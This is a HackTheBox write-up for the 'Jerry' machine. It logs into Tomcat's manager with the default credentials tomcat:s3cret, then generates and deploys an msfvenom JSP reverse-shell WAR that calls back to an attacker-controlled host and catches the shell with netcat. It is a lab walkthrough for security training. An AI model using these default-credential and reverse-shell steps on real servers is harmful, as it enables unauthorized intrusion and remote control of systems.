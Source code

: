 ```yaml
---
Platform: HackTheBox
Category: Web
Difficulty: Easy
tags:
  - RCE
  - arbitrary-file-upload
  - default-credentials
Status: Rooted/Finished
Type: Machine
Title: Jerry
CreatedOn: 04-12-2023
---
```

# Jerry

Hello everyone, In this blog we are going to solve Jerry from HackTheBox.

Link for the machine : [https://app.hackthebox.com/machines/Jerry](https://app.hackthebox.com/machines/Jerry)

  

Lets Start 🙌

  

Connect to the HTB server by using the OpenVpn configuration file that’s generated by HTB.

[ [Click Here](https://help.hackthebox.com/en/articles/5185687-introduction-to-lab-access) to learn more about how to connect to vpn and access the boxes. ]

After connecting to the vpn service, click on Join Machine to access the machine’s ip.

After joining the machine you can see the IP Address of the target machine.

  

First start the reconnaissance by running `rustscan` on the target IP address.

Command: `rustscan -a 10.10.10.95 -- -A -T4 -v -Pn`

![Untitled.png](Jerry/assets/Untitled.png)

![Untitled 1.png](Jerry/assets/Untitled%201.png)

From the results of `rustscan`, we can see that on port `8080`, Apache Tomcat service is running.

I visited the web server running on `http://10.10.10.95:8080/`.

![Untitled 2.png](Jerry/assets/Untitled%202.png)

We can see the default home page of the Apache Tomcat server. I started exploring by clicking all the buttons and links in the home page.

![Untitled 3.png](Jerry/assets/Untitled%203.png)

I clicked the Manager App button and it redirected me to the following link: [http://10.10.10.95:8080/manager/html](http://10.10.10.95:8080/manager/html), which prompted me for a username and password:

![Untitled 4.png](Jerry/assets/Untitled%204.png)

On investigating about the above URL, I found this [https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat#default-credentials](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat#default-credentials)

![Untitled 5.png](Jerry/assets/Untitled%205.png)

So I tried `admin:admin` combination in the prompt and it thrown me the following error:

![Untitled 6.png](Jerry/assets/Untitled%206.png)

from the above error, we can see that they have shown a example, in which they have used `tomcat:s3cret` combination. Let’s give it a try with this combination.

![Untitled 7.png](Jerry/assets/Untitled%207.png)

It worked and we got access to the Application Manager.

Further surfing the Application Manager, we can see that there is an option to upload files of type WAR.

![Untitled 8.png](Jerry/assets/Untitled%208.png)

We can generate a `msfvenom` reverse shell and upload it as mentioned here: [https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat#msfvenom-reverse-shell](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat#msfvenom-reverse-shell)

![Untitled 9.png](Jerry/assets/Untitled%209.png)

Generate the Reverse Shell using the following command:

`msfvenom -p java/jsp_shell_reverse_tcp LHOST=<HTB_tun_IP> LPORT=8888 -f war -o revshell.war`

![Untitled 10.png](Jerry/assets/Untitled%2010.png)

Now upload this `revshell.war` file and click deploy.

![Untitled 11.png](Jerry/assets/Untitled%2011.png)

Now if we check the Applications table, we can see that a new path `/revshell` is generated.

![Untitled 12.png](Jerry/assets/Untitled%2012.png)

Before clicking or viewing the `/revshell` link, start a `netcat` listener on your attack box / local machine on port `8888`

![Untitled 13.png](Jerry/assets/Untitled%2013.png)

Now click the `/revshell` and check the `netcat` listener.

![Untitled 14.png](Jerry/assets/Untitled%2014.png)

![Untitled 15.png](Jerry/assets/Untitled%2015.png)

We have successfully got access to the target machine.

Now we have to look out for the flags. I started surfing the machine. I visited the `C:\Users` directory and found the following users:

![Untitled 16.png](Jerry/assets/Untitled%2016.png)

I checked the Administrator directory. In the Desktop folder of Administrator found the `flags` directory.

![Untitled 17.png](Jerry/assets/Untitled%2017.png)

The flags directory had a file named `2 for the price of 1.txt`.

You can view the contents of the `2 for the price of 1.txt` file using the command: `more "2 for the price of 1.txt"`

![Untitled 18.png](Jerry/assets/Untitled%2018.png)

We have successfully found both the user and root flags.

  

Thank You !!!!!!!